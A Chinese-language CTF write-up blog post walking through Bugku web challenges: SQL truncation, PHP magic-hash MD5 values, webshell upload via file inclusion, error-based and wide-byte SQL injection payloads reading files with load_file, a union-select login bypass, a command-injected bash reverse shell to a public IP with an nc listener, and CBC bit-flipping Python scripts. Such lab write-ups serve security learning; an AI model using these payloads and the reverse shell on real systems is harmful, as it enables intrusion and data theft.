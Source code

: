 ```yaml
---
layout: post
title: "Bugku writeup4"
date: 2018-03-21 22：00
categories: jekyll update
---
```


# web
### login1(SKCTF)
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/67.png" >  
</div>
&emsp;&emsp;这道题用的是`sql约束攻击`，利用的是数据库字段定义时产生的漏洞。如：
```shell
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
```
&emsp;&emsp;这里的`username`只允许25个字符，超过后就舍去25字符以后的，然后在`mysql`中，`admin`跟`admin       [很多空格]`在查询的时候是一样的。因为`admin`用户已经存在，但我们不知道他的密码，所以我们自己注册一个`admin`然后替换掉密码。所以我们可以注册一个`admin[很多个空格]1`的用户名，只要总字符数超过25，然后密码设成你的。注册成功后使用`admin`加你的`密码`去登陆即可得到flag。

### md5 collision(NUPT_CTF)
&emsp;&emsp;这道题是MD5碰撞，PHP在进行比较运算时，如果遇到了0e\d+这种字符串，就会将这种字符串解析为科学计数法，然后`0 == 字符串`是成立的，从而绕过了MD5检查，这里记录一些MD5值：
```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

### 文件包含2
&emsp;&emsp;打开题目，在源代码中发现了`upload.php`
<div align="center">
    <img src="/images/posts/bugku/68.png" >  
</div>
&emsp;&emsp;访问后发现是文件上传，但是只支持图片文件，不够这里没关系，不用考虑怎么绕过，因为文件包含的时候会使用`php`解析：
<div align="center">
    <img src="/images/posts/bugku/69.png" >  
</div>
&emsp;&emsp;上传一句话
<div align="center">
    <img src="/images/posts/bugku/70.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/71.png" >  
</div>
&emsp;&emsp;但是访问后发现存在过滤，`<?php`被替换成`_`。如下图：
<div align="center">
    <img src="/images/posts/bugku/72.png" >  
</div>
&emsp;&emsp;但是我们可以使用`<script language=php> </script>`标签绕过这个验证，我们再上传一次：
<div align="center">
    <img src="/images/posts/bugku/73.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/74.png" >  
</div>
&emsp;&emsp;可以看到，后台已经成功的解析了我们的`php代码`。接着使用菜刀连接。
<div align="center">
    <img src="/images/posts/bugku/75.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/76.png" >  
</div>
&emsp;&emsp;最终我们能拿到flag：`SKCTF{uP104D_1nclud3_426fh8_is_Fun}`。

### flag.php
&emsp;&emsp;题目：
<div align="center">
    <img src="/images/posts/bugku/77.png" >  
</div>
&emsp;&emsp;打开页面后发现提交表单没有反应，然后想起题目提示，所以尝试一下`get`一个请求。然后可以找到源码：
<div align="center">
    <img src="/images/posts/bugku/78.PNG" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/79.png" >  
</div>
&emsp;&emsp;这里有些诱惑性的东西，它故意在最后放出了`$key`的值，然而当你拿着`$KEY='ISecer:www.isecer.com';`去序列化后提交会发现是不对的。
<div align="center">
    <img src="/images/posts/bugku/80.png" >  
</div>
&emsp;&emsp;其实这道题用得知识跟数字与字符串比较的绕过方式有点相似，首先`$KEY`的值是没有定义的，但是我们可以构造`s:0:"";`字符串，他反序列化的结果就是一个空的字符串，然后绕过他的比较。
<div align="center">
    <img src="/images/posts/bugku/82.png" height="50%" />  
</div>
<div align="center">
    <img src="/images/posts/bugku/81.png" >  
</div>
&emsp;&emsp;此时flag就出来了。

### sql注入2
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/83.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/84.png" >  
</div>
&emsp;&emsp;这道题尝试了很多注入但都没有成功，后来经过看网上的writeup，才发现是`.DS_Store`泄露，然后网上找了个<a href="https://github.com/lijiejie/ds_store_exp">exp</a>，运行后就能得到flag文件。
<div align="center">
    <img src="/images/posts/bugku/85.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/86.png" >  
</div>
&emsp;&emsp;flag就是：`flag{sql_iNJEct_comMon3600!}`。

### 孙xx的博客
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/87.png" >  
</div>
&emsp;&emsp;这里提示信息搜集，所以我们扫一扫目录：
<div align="center">
    <img src="/images/posts/bugku/88.png" >  
</div>
&emsp;&emsp;这里扫出了`phpmyadmin`的目录，然后再去网站上看看，然后就能发现数据库的用户名和密码。
<div align="center">
    <img src="/images/posts/bugku/89.png" >  
</div>
&emsp;&emsp;我们拿去登陆一下，就能发现flag。
<div align="center">
    <img src="/images/posts/bugku/90.png" >  
</div>

### 报错注入
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/91.png" >  
</div>
&emsp;&emsp;可以看到这里过滤了很多字符，包括`空格`，但由于`mysql`的特性，我们可以使用回车换行符还替代即`%0a`或`%0d`。

&emsp;&emsp;因为要进行报错注入，所以我们可以使用`extractvalue()`或者`updatexml()`进行报错，尝试一条报错语句：
```
?id=1%0aand%0aextractvalue(1,concat(0x7e,(select%0a@@version),0x7e))
?id=1%0aand%0aupdatexml(1,concat(0x7e,(select%0a@@version),0x7e),1)
```
<div align="center">
    <img src="/images/posts/bugku/92.png" >  
</div>
&emsp;&emsp;可以看到已经成功报错，这里把`%0a`换成`%0d`也是可以的。要读取文件，mysql提供了`load_file()`函数，并且需要对文件名进行`16进制`编码。又因为`extractvalue()`有长度限制,最长为`32位`，所以我们需要使用`substr()`对`hex()`过的文件内容进行分割，我们一次取30个就好。这里注意的是如果不对文件内容进行`16进制`编码就会出现无法读取的情况。
```
?id=1%0aand%0a(extractvalue(1,concat(0x7e,substr(hex(load_file(0x2f7661722f746573742f6b65795f312e706870)),1,30))),0x7e)
```
&emsp;&emsp;最终我们能拿到一串16进制的字符，然后解密就可以得到flag：
<div align="center">
    <img src="/images/posts/bugku/93.png" >  
</div>
&emsp;&emsp;但这里最坑的就是双引号是中文的`”`，所以直接复制题目给的flag形式，然后把双引号里的值粘贴进去就行了。

### login3(SKCTF)
&emsp;&emsp;打开题目，发现过滤了很多字符，包括`空格 , = and`，所以这给我们注入带来极大的不便，但是`or select >`没有被过滤，我们先找到闭合字符。而且我们注意到，页面使用的是`en`编码，所以可以考虑`宽字节`注入。
<div align="center">
    <img src="/images/posts/bugku/94.png" >  
</div>
&emsp;&emsp;然后我们构造了验证poc：`username=admin%df%27or'1'>'1&password=admin`跟`username=admin%df%27or'2'>'1&password=admin`。
<div align="center">
    <img src="/images/posts/bugku/95.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/96.png" >  
</div>
&emsp;&emsp;可以看到当`or`返回真时它会检查`password`是否正确，而当`or`返回假时会报`没有此用户`的错误，所以，我们可以接着构造我们的payload。下面是我的payload：
```
username=admin%df%27or(select(password))>'0&password=admin
```
&emsp;&emsp;我们只需要不断刷新`>'`后面的字符就能把密码给注入出来，这里值得注意的是最后一个值的确定，可以看到当最后一个字符为`/`时页面返回了真，而为`0`时则返回了假。
<div align="center">
    <img src="/images/posts/bugku/97.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/98.png" >  
</div>
&emsp;&emsp;因为我们使用的是`>`来进行判断的，所以最后的一个值一定会比真实值`小`，也就是说我们最后一位应该取`0`才是正确的。所以最终md5值：`51b7a76d51e70b419f60d3473fb6f900`。解密出来就是：`skctf123456`。然后我们登陆一下就能获得flag。
<div align="center">
    <img src="/images/posts/bugku/99.png" >  
</div>
&emsp;&emsp;ps：本来这里是打算写脚本跑的，但因为判断条件在脚本里无法使用，在postman中也不能作为判别的依据，所以，这个方法只能在`burpsuite`跟`zap`上使用。
<div align="center">
    <img src="/images/posts/bugku/100.png" height="50%" />  
</div>

### Trim的日记本
&emsp;&emsp;打开页面后如下：
<div align="center">
    <img src="/images/posts/bugku/101.png" height="80%" />  
</div>
&emsp;&emsp;然后随手注册了以一个账号，但发现不知道`id`无法登陆，所以就拿出了目录扫描器看看有什么发现。
<div align="center">
    <img src="/images/posts/bugku/102.png" />  
</div>
&emsp;&emsp;然后这里还真的有发现，我们访问一下`show.php`。
<div align="center">
    <img src="/images/posts/bugku/103.png" />  
</div>
&emsp;&emsp;可以发现一个flag，拿去提交还真是真的flag。所以这道题就so easy了。。。

### login2(SKCTF)
&emsp;&emsp;这道题就是学习姿势了，自己做的时候没有找到思路，然后看了writeup才做出来。

&emsp;&emsp;对请求抓包，然后可以发现`tip`，解密出来是几行代码。
<div align="center">
    <img src="/images/posts/bugku/104.png" />  
</div>
```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}

```
&emsp;&emsp;这里可以看到它是分离式的验证，首先查询`username`的用户，然后拿出`password`再进行比较，一开始想着是注入出`admin`的密码，但发现可能没有这个用户，而且也找不到注入的`poc`。后来参考网上的writeup才知道正确的打开方式。payload：
```
username=' union select md5(1),md5(1)#&password=1
```
&emsp;&emsp;执行这条语句时由于前面的`username`为空，所以没有数据返回，但后面的`union select md5(1),md5(1)`则会返回两个MD5(1)的值，然后`password`我们也置为`1`，从而绕过`if`语句的判断。

&emsp;&emsp;接下来可以进入命令执行的页面。
<div align="center">
    <img src="/images/posts/bugku/105.png" />  
</div>
&emsp;&emsp;然后我们反弹回一个shell来方便我们操作。我们先在本地监听一下，这里使用nc。
```bash
nc -lvv 8888
```
&emsp;&emsp;然后执行反弹shell的命令。
```bash
|bash -i >& /dev/tcp/你的公网ip/8888 0>&1
```
&emsp;&emsp;最后就能在服务器上收到shell，然后查询flag。
<div align="center">
    <img src="/images/posts/bugku/106.png" height="70%" />  
</div>
&emsp;&emsp;所以flag：`SKCTF{Uni0n_@nd_c0mM4nD_exEc}`。

### login4（CBC字节翻转攻击）
&emsp;&emsp;这道题就纯属学习姿势了，首先是进行敏感目录扫描，然后发现`.index.php.swp`源码泄露。
<div align="center">
    <img src="/images/posts/bugku/107.png" />  
</div>
```php
<?php
define("SECRET_KEY", file_get_contents('/root/key'));
define("METHOD", "aes-128-cbc");
session_start();

function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}

function login($info){
    $iv = get_random_iv();
    $plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    $_SESSION['username'] = $info['username'];
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}

function check_login(){
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $_SESSION['username'] = $info['username'];
        }else{
            die("ERROR!");
        }
    }
}

function show_homepage(){
    if ($_SESSION["username"]==='admin'){
        echo '<p>Hello admin</p>';
        echo '<p>Flag is $flag</p>';
    }else{
        echo '<p>hello '.$_SESSION['username'].'</p>';
        echo '<p>Only admin can see flag</p>';
    }
    echo '<p><a href="loginout.php">Log out</a></p>';
}

if(isset($_POST['username']) && isset($_POST['password'])){
    $username = (string)$_POST['username'];
    $password = (string)$_POST['password'];
    if($username === 'admin'){
        exit('<p>admin are not allowed to login</p>');
    }else{
        $info = array('username'=>$username,'password'=>$password);
        login($info);
        show_homepage();
    }
}else{
    if(isset($_SESSION["username"])){
        check_login();
        show_homepage();
    }else{
        echo '<body class="login-body">
                <div id="wrapper">
                    <div class="user-icon"></div>
                    <div class="pass-icon"></div>
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>Fill out the form below to login to my super awesome imaginary control panel.</span>
                        </div>
                        <div class="content">
                        <input name="username" type="text" class="input username" value="Username" onfocus="this.value=\'\'" />
                        <input name="password" type="password" class="input password" value="Password" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <input type="submit" name="submit" value="Login" class="button" />
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```
&emsp;&emsp;因为`admin`用户被禁止了登陆，但是可以利用反序列化漏洞重置`$_SESSION['username']`为`admin`，然后拿到flag。

&emsp;&emsp;首先介绍一下`CBC字节翻转攻击`，如果我们要想把第二行（段）中的`2`变成`n`，我们只需要修改第一行（段）的`r`。
```
原文：
a:2:{s:8:"username";s:5:"admi2";s:8:"password";s:5:"skctf";}
按16个字符分割：
a:2:{s:8:"userna
me";s:5:"admi2";
s:8:"password";s
:5:"skctf";}
```
<div align="center">
    <img src="/images/posts/bugku/108.png" />  
</div>
&emsp;&emsp;修改方式就是：
```python
bs_de = 'a:2:{s:8:"username";s:5:"admi2";s:8:"password";s:5:"skctf";}'
bs_de=bs_de[0:13]+chr(ord(bs_de[13]) ^ ord('2') ^ ord('n'))+bs_de[14:]
```
&emsp;&emsp;我们把`cookie`中的`cipher`拿出来修改一下。
```python
# -*- coding:utf-8 -*-

import base64

bs = 'e8SnC9p3aEmJciIN8NWYM1PcA/A7jSwsiTglqdBMLRLf/8LOHKmhOoHSOBbJB1xEnE6S6DpfgkD8NWlJETxDZQ=='
bs_de = base64.b64decode(bs)
ch = chr(ord(bs_de[13]) ^ ord('2') ^ ord('n'))

bs_de=bs_de[0:13]+ch+bs_de[14::]

print(base64.b64encode(bs_de))
```
&emsp;&emsp;然后把得到的结果替换掉`cipher`，访问后可以发现反序列化出错了。
<div align="center">
    <img src="/images/posts/bugku/109.png" />  
</div>
&emsp;&emsp;这是因为在修改`第二段明文`的时候我们把`第一段的密文`破环掉了，造成后台无法解密出原来的数据。如下面这种情况。
<div align="center">
    <img src="/images/posts/bugku/110.png" />  
</div>
&emsp;&emsp;当将`6`修改成`7`的时候，造成了第一段密文解密出来的结果变成了乱码，所以我们还需要还原`第一段的密文`，所以我们要对`iv`这个初始向量进行修改。
<div align="center">
    <img src="/images/posts/bugku/111.png" />  
</div>
&emsp;&emsp;修改的方法还是跟上面一样的套路，只不过这里的`cipher`要变成上面提示`反序列化`错误的那个密文。因为这个反序列化错误的字符是`第一次翻转后的明文`。
<div align="center">
    <img src="/images/posts/bugku/112.png" />  
</div>
&emsp;&emsp;所以，我们修改的代码如下：
```python
import base64
mingwen_de='xvFs8hcryE3UwXuTa5b+7W1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjg6IlBhc3N3b3JkIjt9'
mingwen = base64.b64decode(mingwen_de)

iv = 'wJdHFG15Qc2hs1bkgMHd4w=='
iv_de = base64.b64decode(iv)
new = 'a:2:{s:8:"userna'
for i in range(16):
    iv_de = iv_de[:i] + chr(ord(iv_de[i]) ^ ord(mingwen[i]) ^ ord(new[i])) + iv_de[i+1:]

print(base64.b64encode(iv_de))
```
&emsp;&emsp;将得到的结果替换到`iv`上，然后刷新页面，就能看到flag了。
<div align="center">
    <img src="/images/posts/bugku/113.png" />  
</div>
&emsp;&emsp;<b>参考链接：</b>
<a href="http://p0sec.net/index.php/archives/99/">CBC字节翻转攻击</a><br>
<a href="http://drops.xmd5.com/static/drops/tips-7828.html">CBC字节翻转攻击</a>